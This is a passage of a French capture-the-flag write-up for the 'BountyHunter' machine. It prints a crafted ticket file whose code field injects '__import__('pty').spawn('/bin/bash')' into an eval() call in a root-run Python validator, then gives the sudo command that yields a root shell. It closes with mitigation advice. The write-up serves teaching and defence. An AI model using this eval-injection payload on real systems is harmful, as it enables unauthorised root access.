Le ticket n'a pas besoin d'être un bon ticket, il ne peut pas être un bon ticket en fait.
Il suffit juste de remplir les conditions avant l'appel d'`eval()` pour y arriver<br>
et injecter notre payload maliceux.<br>

Voici le billet que j'ai conçu et testé. La fonction `eval()` va essayer de faire
la somme des nombres à l'intérieur des `* *`, le point est que pour se rendre à l'appel d'`eval()`,<br>
nous devons fournir un numéro en premier lieu qui réussira la vérification effectué à `if int(ticketCode) % 7 == 4:`.<br><br>
Le nombre 32 fonctionnera parfaitement pour ce cas. Il ajoutera ensuite 0 à 32 et essaiera d'ajouter ensuite `__import__('pty').spawn('/bin/bash')`
a notre somme et échouera,<br>
mais évaluera notre payload malicieux, ce qui nous retournera un shell avec les droits de root.

### ticket. md

```
# Skytrain Inc
## Ticket to Y0u G0t Pwn3d Isl4nd
__Ticket Code:__
**32+0+__import__('pty').spawn('/bin/bash')**
##Issued: 2021/08/10
#End Ticket
```

La prochaine chose à faire, était de transférer notre ticket maliceux sur notre cible.<br>
J'ai donc démarré un simple serveur Web avec **Python** sur ma machine locale et j'ai utilisé `wget` sur notre cible
pour télécharger le ticket dans le dossier `/tmp`.<br><br>

 <br>

Et après cela, nous n'avions plus qu'à exécuter le script avec la commande suivante: `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`<br>
et fournir notre ticket maliceux lorsque le script le demandera. <br>

Bingo! Nous avons un shell root et nous avons le contrôle de la machine BountyHunter!<br><br>

 <br>

## Mitigation des risques

---

Si ça l'aurait été un scénario ce produisant dans la vrai vie, il y aurais quelques moyen afin de mitiger ces attaques.<br>

### Serveur PHP

Ici, les développeurs qui ont configuré le serveur web, auraient dû interdire le parser XML de lire les fichiers sur le système
ou simplement restreindre l'accès de `/etc/passwd`<br>
à l'utilisateur exécutant le serveur Web (`www-data`).
Ils auraient également dû désactiver le `php://filter` afin de nous empêcher d'obtenir le contenu des fichiers **PHP**.

### Script Python

Ici, le développeur aurait dû simplement enlever l'appel à la fonction `eval()` et de fournir les strings fonction à la `split()` à la place et essayer de convertir<br>
les arguments en en nombre entier (integer) à l'intérieur d'un try/except. Mieux encore, ce script ne devrait tout simplement pas fonctionner avec les privilèges de root.
